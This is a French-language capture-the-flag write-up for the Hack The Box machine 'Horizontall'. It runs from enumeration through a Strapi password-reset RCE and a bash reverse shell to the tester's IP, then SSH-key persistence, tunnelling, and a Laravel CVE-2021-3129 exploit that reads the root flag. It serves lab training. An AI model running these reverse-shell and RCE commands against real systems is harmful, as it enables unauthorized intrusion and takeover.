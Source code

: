 ﻿# Horizontall [Linux] Easy
#” 1.Enumeration â€”
## Nmap
`nmap -A -sS -sV -p- 10.10.11.105`
```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```
Quand on se rend sur le port 80 on à  une redirection à horizontall.htb on va changer un paramètre de notre dns avec cette commande :
`echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts`
## Ffuf
```bash
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
favicon.ico             [Status: 200, Size: 4286, Words: 8, Lines: 1]
img                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 901, Words: 43, Lines: 2]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
```
## Le Site
Aucun boutton du site ne marche tout peux nous renvoyer su la page d'acceuil on ne peux pas aller dans les dossiers que ffuf à trouver. On peux quand même regarder le js de la page pour trouver un indice. Il y a [app.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) qui est un code en 1 seul ligne ce qui rend difficille la lecture mais nous pouvons utiliser [https://beautifier.io/](https://beautifier.io/) pour rendre le code plus lisible.
Dans le code de app[.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) se rend compte quâ€™on utilise du Vue js câ€™est dâ€™ailleur le logo du site et on vois dans les methodes  du script quand on utilise le site 
[](http://api-prod.horizontall.htb/reviews)
![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled.png)
On remodifie notre hosts
`echo "10.10.11.105 api-prod.horizontall.htb" | sudo tee -a /etc/hosts`
![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%201.png)
Nous sommes donc sur un sous-domaine du site précédent nous pouvons énumerer le site
## Ffuf Le 2
```bash
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
```
On à  donc la page admin du CMS qui est strapi et nous pouvons essayer de nous identifier.
# â€” 2.Exploit â€”
On trouve avec une recherche google un CVE de Strapi qui est un RCE et nous permet de mettre le mot de passe que nous voulons sur l'admin panel 
On trouve avec un exploit sur exploit-db : [https://www.exploit-db.com/exploits/50239](https://www.exploit-db.com/exploits/50239)
```bash
python3 cmsexploit.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit
[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0NDQzNTE5LCJleHAiOjE2NTcwMzU1MTl9.a8Os4RNhGakrtQ7jfHb106kAUbzaGehXW0IL-X6AgAg
$> bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1'
[+] Triggering Remote code execution
[*] Rember this is a blind RCE don't expect to see output
```
En mÃªme temps nous mettons un listener `nc -lvnp 1234`
Nous avons maintenant un accès admin sur le panel du CMS et sur la machine en tant que strapi.
![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%202.png)
# --” 3.Mouvement Latéral --”
On va d'abord invoqué tty pour avoir un shell entier :
```bash
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
*Enter deux fois*
```
On ne peut pas faire de `sudo -l`
On peut aussi déjà  accéder à user.txt pour récupérer le flag.
On créé un serveur avec python `python -m http.server 80` et on récupère un linpeas.sh
On trouve des Ports Actif sur la machine et ces port n'avait pas été trouvé par notre scan nmap :
```bash
â•”â•â•â•â•â•â•â•â•â•â•â•£ Active Ports
â•š https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                                  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1704/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
Avec ce site [https://www.speedguide.net/port.php?port=3306](https://www.speedguide.net/port.php?port=3306) on peux trouver ce que sont ces ports par défaut selon nmap :
1337 : Nullsoft WASTE encrypted P2P app (Pas certain)
3306 :  mySQL
8000 : Une alternative Ã  http 
- On peux utiliser Curl pour avoir une meilleur idÃ©e de ce quâ€™il y Ã  sur ces ports
- curl 127.0.0.1:1337 Est le sous domaine du site
- curl 127.0.0.1:8000 Est un nouveau sous domaine du site utilisant Laravel
![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%203.png)
## Accées par SSH
Pour ce que nous voulons faire par la suite nous devons avoir un accÃ©es par ssh donc nous allons crÃ©Ã© sur notre ordinateur un couple de clefs `ssh-keygen -f strapi` copié la clé publique et l'écrire sur la machine adverse dans un nouveau dossier .ssh  un ficher authorized_keys contenant notre clef publique avec la commande `vi authorized_keys`
On peux finalement se connécté avec la commande : `ssh -i strapi [strapi@10.10.11.105](mailto:strapi@10.10.11.105)`
On déploi un tunnel sur le port 8000 :
`ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb`
## Troisième Site
Maintenant que nous avons un tunnel nous pouvons aller sur [http://localhost](http://localhost):8000 
![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%204.png)
## Exploitation Final
Laravel Ã  lui aussi un CVE et un https://github.com/nth347/CVE-2021-3129_exploit qui est un RCE nous permettant dâ€™attraper le dernier flag.
DerniÃ¨re commande :
`./cve-2021-3129.py [http://localhost:8000](http://localhost:8000/) Monolog/RCE1 'cat /root/root.txt'`
# Notes et Ressources :
[https://www.geeksforgeeks.org/vue-js-methods/](https://www.geeksforgeeks.org/vue-js-methods/)
Ne marche pas sur la machine mais intéressant d'énumérerer les sous domaines dès le début avec wfuzz :
`wfuzz --hh 194 -u http://horizontall.htb -H "Host: FUZZ.horizontal.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`
On pouvait au lieu de tester à l'aveugle le rce trouver la version du cms avec curl :
```
curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}
```